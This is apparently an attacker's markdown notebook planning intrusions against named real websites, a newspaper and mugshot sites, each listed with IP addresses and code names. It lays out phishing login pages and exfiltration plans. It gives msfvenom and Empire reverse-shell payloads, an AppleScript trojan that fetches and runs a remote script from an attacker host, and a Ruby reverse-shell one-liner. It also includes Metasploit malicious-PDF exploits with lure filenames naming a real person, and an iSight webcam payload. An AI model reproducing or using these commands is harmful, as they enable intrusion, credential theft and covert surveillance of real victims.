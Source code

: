 # Metasploit

`/opt/metasploit-framework/bin/msfconsole`

# Targets

courant.com - http://54.218.214.241
budstedmugshots.com - https://104.31.1.164

## TODO

- Build Phish Sites + Setup server 
	- Facebook Login Phish
	- WP Login Phish + Custom Business WP Login
	- Craigslist Item w/ Back-Button and an Email-Seller to Gmail Login Phish
	- Maltego Install (Downloaded)


# 4) Exfiltration

Grab All Imprtant Target Data - https://null-byte.wonderhowto.com/how-to/securely-sync-files-between-two-machines-using-syncthing-0185999/


# 3) Payloads

### msfvenmom

Exploit with PHP, then use PHP Exploit to upload Linux Backdoor, and connect through that (more stable)

```bash
msfvenom -l payloads
msfvenom -p php/meterpreter/bind_tcp --payload-options 
exploit # Starts the Handler

# Generate Linux
msfvenom -p linux/x86/meterpreter/bind_tcp LPORT=5000 > /root/msf/linux_backdoor 

# In PHP Back Door Handler
upload /root/msf/linux_backdoor /tmp
background # Switch PHP-Payload Session in background
sessions # View Sessions in background

set payload linux/x86/meterpreter/bind_tcp
set LPORT 5000
exploit -j # Reconfigure the new Linux handler to run in the background with -j

# Switch back to PHP session, to start the Linux Backdoor on remote system
session -i 2
execute -f /tmp/linux_backdoor
# Opens up new stable mterpreter shell

```

### Payloads by OS + Server

```bash
# OSX
msfvenom -p osx/x86/shell_reverse_tcp LHOST=[Your IP] LPORT=[Your Port] -f macho > shell.macho

# Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP] LPORT=[Your Port] -f exe > shell.exe

# Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[Your IP] LPORT=[Your Port] -f elf > shell.elf

# PHP
 -p php/meterpreter_reverse_tcp LHOST=[Your IP] LPORT=[Your Port] -f raw > shell.php
cat shell.php | xclip -selection clipboard && echo "<?php " > shell.php && xclip -selection clipboard -o >> shell.php && echo && echo " ?>" >> shell.php

# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP] LPORT=[Your Port] -f asp > shell.asp

# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Your IP] LPORT=[Your Port] -f raw > shell.jsp

# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Your IP] LPORT=[Your Port] -f war > shell.war
```

## Tools

### Empire

Run Empire Interactive `./empire`

#### Listeners

```bash
listeners # Displays active listeners

# Enable standard HTTP Listener. 
# Enters Listener interactive console
uselistener http 

info # View listener options
set Port 80
set Host 0.0.0.0
execute # Starts listener
listeners # Lists Listeners

```

#### Stagers

`stagers` similar to `payloads`, are used to create a connection back to Empire listener, when opened by victim

```bash
usestager # <Press Tab> - Displays availabl Stagers
usestager osx/applescript
info # displays selected stager info
set Listener http # Name the listener
generate # Displays the Stager code. 
# Copy the generated Python Code.

# SSH into an anon VPS Server
mkdir artemis
pbpaste > script # Paste Listener Python Code
python3 -m http.server 8080 &

```

### Create a PDF Graphics

1. Download the cover of a book from the internet
2. `gimp cover.jpg`
3. File > Export As > Name: 'real.pdf' Type: 'Portable Document Format (*.pdf)'
4. Image > Canvas Size > Change `width` to match `height` > Resize
5. Tools > Transform Tools > `Align` > Click the Image
6. Image > Scale Image > `Width: 256px` `Height: 256px`
7. File > Export As > `Name: cover.png` `Format: PNG Image (*.png)`
8. Convert to `Apple Icon (.icns)` format using [CloudConvert Took](https://cloudconvert.com/png-to-icns)
9. Save files in the project folder: 
	- `cover.icns` - Apple Icon File  
	- `real.pdf` - Small PDF downloaded by target every-time Applescript (Fake PDF) opened
	- `cover.jpg` + `cover.png` - templates not needed further 

### Build Trojan

- Copy PDF, make a backup copy
- Create Applescript (Script Editor app)

```applescript
do shell script "s=ATTACKER-IP-ADDRESS:PORT; curl -s $s/real.pdf | open -f -a Preview.app & curl -s $s/script | python -"
```

- 

## Target Codes

- `artemis` - Hartford Courant
- `medussa` - mugshot-websites:
	1. `scylla` - bustedmugshots.com
	2. `hades` - mugshots.com
	3. `chaos` - bookingbytes.com
	4. `hedone` - last-mugshot-website

## Attacks

### Ruby Backdoor - MacOSX

```bash
# Start Netcat Listener on C&C Server, Waitfor Payload to Connect
nc -v -l -p 9999

# Execute Backdoor on Target
# Set the CC IP and Port
ruby -rsocket -e "c=TCPSocket.new('1.2.3.4','9999');while(cmd=c.gets);IO.popen(cmd,'r'){|io|c.print io.read}end"

```

### PDF Exploit - MacOSX

Create exploit and payload using Empire

```bash
./empire
listeners
```

### PDF Exploit - Windows
```bash
search type:exploit platform:windows adobe pdf

use exploit/windows/fileformat/adobe_pdf_embedded_exe

exploit (adobe_pdf_embedded_exe) > info

exploit (adobe_pdf_embedded_exe) > set payload
windows/meterpreter/reverse_tcp

exploit (adobe_pdf_embedded_exe) > show options

exploit (adobe_pdf_embedded_exe) > set INFILENAME dan_m_evidence_SECRET.pdf
exploit (adobe_pdf_embedded_exe) > set FILENAME dan_m_evidence_SECRET.pdf
exploit (adobe_pdf_embedded_exe) > set LHOST 192.168.1.149
exploit (adobe_pdf_embedded_exe) > exploit
```

### PDF Exploit 2 - Windows

```bash
use exploit/windows/fileformat/adobe_utilprintf
set FILENAME DanMalloy-AbuseEvidencePoliceReport.pdf
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.8.128
set LPORT 4455
show options
```

### iSight Exploit - MacOSX
```bash
msfvenom -a x86 --platform OSX -p osx/x86/isight/bind_tcp -b "\x00" -f elf -o /tmp/osxt2
```


### Payloads
```bash
payload/osx/x64/meterpreter_reverse_tcp
payload/osx/x86/isight/reverse_tcp
windows/meterpreter/reverse_tcp
```
